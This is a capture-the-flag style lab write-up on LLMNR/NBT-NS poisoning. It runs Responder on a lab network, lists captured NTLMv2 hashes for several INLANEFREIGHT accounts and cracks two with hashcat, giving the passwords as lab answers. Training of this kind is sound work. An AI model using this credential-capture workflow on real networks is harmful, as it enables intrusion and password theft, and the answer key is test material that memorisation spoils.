









<div align='center'>

# **Lab 4: LLMNR/NBT-NS Poisoning - from Linux** 

</div>

## **Responder In Action**

- Command: 

    ```zsh
    sudo responder -I ens224
    ```

- Here is the result:

    

    

- Hashes are saved in `/usr/share/responder/logs/` in the format of `(MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt.txt`

    

- List of account with hashes:

    ```
    clusteragent::INLANEFREIGHT:700a3e1c48f97985:94900D4D28C1EF7CCD903410F7EA9071:01010000000000000059E5E4D792D901F765CFF1B9FE38CC0000000002000800500050003300490001001E00570049004E002D0048004100410036004C005A00310059004F004700470004003400570049004E002D0048004100410036004C005A00310059004F00470047002E0050005000330049002E004C004F00430041004C000300140050005000330049002E004C004F00430041004C000500140050005000330049002E004C004F00430041004C00070008000059E5E4D792D901060004000200000008003000300000000000000000000000003000009E45A59CD310AC4492AFC062E257057B0EC9C90ECEE093074E8941A0F33960530A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000
    backupagent::INLANEFREIGHT:24f31eb63edd7e9c:16B889F0C88417145ACD67E939EA3F80:01010000000000000059E5E4D792D9010910641D85EA50E00000000002000800500050003300490001001E00570049004E002D0048004100410036004C005A00310059004F004700470004003400570049004E002D0048004100410036004C005A00310059004F00470047002E0050005000330049002E004C004F00430041004C000300140050005000330049002E004C004F00430041004C000500140050005000330049002E004C004F00430041004C00070008000059E5E4D792D901060004000200000008003000300000000000000000000000003000009E45A59CD310AC4492AFC062E257057B0EC9C90ECEE093074E8941A0F33960530A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000
    forend::INLANEFREIGHT:ab4640bf8e580213:9A932903187465640AFAEEF8BBB51191:01010000000000000059E5E4D792D901AAB1AF24096840980000000002000800500050003300490001001E00570049004E002D0048004100410036004C005A00310059004F004700470004003400570049004E002D0048004100410036004C005A00310059004F00470047002E0050005000330049002E004C004F00430041004C000300140050005000330049002E004C004F00430041004C000500140050005000330049002E004C004F00430041004C00070008000059E5E4D792D901060004000200000008003000300000000000000000000000003000009E45A59CD310AC4492AFC062E257057B0EC9C90ECEE093074E8941A0F33960530A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000
    svc_qualys::INLANEFREIGHT:584e10c435023303:519020415E60931EA60C414BB6B20BFF:01010000000000000059E5E4D792D901AECDCF889DFF5D6E0000000002000800500050003300490001001E00570049004E002D0048004100410036004C005A00310059004F004700470004003400570049004E002D0048004100410036004C005A00310059004F00470047002E0050005000330049002E004C004F00430041004C000300140050005000330049002E004C004F00430041004C000500140050005000330049002E004C004F00430041004C00070008000059E5E4D792D901060004000200000008003000300000000000000000000000003000009E45A59CD310AC4492AFC062E257057B0EC9C90ECEE093074E8941A0F33960530A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000
    wley::INLANEFREIGHT:a2d556b21ccd6275:885203855EF3250F614E151BA3C382DE:01010000000000000059E5E4D792D901047B37F8C592F6120000000002000800500050003300490001001E00570049004E002D0048004100410036004C005A00310059004F004700470004003400570049004E002D0048004100410036004C005A00310059004F00470047002E0050005000330049002E004C004F00430041004C000300140050005000330049002E004C004F00430041004C000500140050005000330049002E004C004F00430041004C00070008000059E5E4D792D901060004000200000008003000300000000000000000000000003000009E45A59CD310AC4492AFC062E257057B0EC9C90ECEE093074E8941A0F33960530A001000000000000000000000000000000000000900220063006900660073002F003100370032002E00310036002E0035002E003200320035000000000000000000
    ```

- **Question:** Run Responder and obtain a hash for a user account that starts with the letter b. Submit the account name as your answer.

    - **Answer:** backupagent

    

## **Cracking an NTLMv2 Hash With Hashcat**

- Store each user's hash in a separate file:

    ```zsh
    echo <user's hashes> > <user's name>
    ```

    

- Use Hashcat to crack the hash:

    ```zsh
    hashcat -m 5600 <hash file> <wordlist>
    ```
    - Here is the result for account `backupagent`

    

    Look at the result, we can see that the password is `h1backup55`

    - Here is the result for account `wley`

    

    Look at the result, we can see that the password is `transporter@4`

- **Question:** Crack the hash for the previous account and submit the cleartext password as your answer.

    **Answer:** h1backup55

    

- **Question:** Run Responder and obtain an NTLMv2 hash for the user wley. Crack the hash using Hashcat and submit the user's password as your answer.
    
    **Answer:** transporter@4

    
    